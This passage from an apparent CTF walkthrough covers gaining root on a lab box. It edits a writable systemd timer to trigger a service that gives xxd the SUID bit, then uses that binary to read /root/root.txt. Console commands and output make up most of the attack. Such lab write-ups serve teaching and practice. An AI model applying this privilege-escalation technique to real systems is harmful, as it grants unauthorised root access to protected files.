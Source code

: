 The `exploit.service` copies the `xxd` binary to `/opt` and adds `SUID` permission to it as root. So, all we have to do is to make this service run and use the `xxd` binary with `SUID` to escalate to root.

```console
comte@cheesectf:~$ cat /etc/systemd/system/exploit.service 
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```

> [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-timers) - Writable Timers
> 
> Here is a good resource on exploiting `Systemd Timers`
{: .prompt-tip}

We can modify the `exploit.timer` file to execute `exploit.service` by adding `Unit=exploit.service` to it. I also added a `OnActiveSec=10` to enable the service 10 seconds after we restart `exploit.timer`. It can be any amount of time, I just added 10 seconds just in case...
```text
[Unit]
Description=Exploit Timer

[Timer]
OnActiveSec=10
Unit=exploit.service

[Install]
WantedBy=timers.target
```

After restarting the service and 10 seconds passing, the `xxd` binary should be copied to `/opt` with the `SUID` bit set.
```console
comte@cheesectf:/etc/systemd/system$ sudo /bin/systemctl daemon-reload
comte@cheesectf:/etc/systemd/system$ sudo /bin/systemctl restart exploit.timer
omte@cheesectf:/etc/systemd/system$ ls -la /opt
-rwsr-sr-x  1 root root 18712 Sep 28 19:08 xxd
```

We can now use `/opt/xxd <filename> | /opt/xxd -r` to read any file **as root**. This is how we can simply read the `root.txt` file.
```console
comte@cheesectf:/etc/systemd/system$ /opt/xxd /root/root.txt | /opt/xxd -r
      _                           _       _ _  __
  ___| |__   ___  ___  ___  ___  (_)___  | (_)/ _| ___
 / __| '_ \ / _ \/ _ \/ __|/ _ \ | / __| | | | |_ / _ \
| (__| | | |  __/  __/\__ \  __/ | \__ \ | | |  _|  __/
 \___|_| |_|\___|\___||___/\___| |_|___/ |_|_|_|  \___|


THM{[REDACTED]}
```
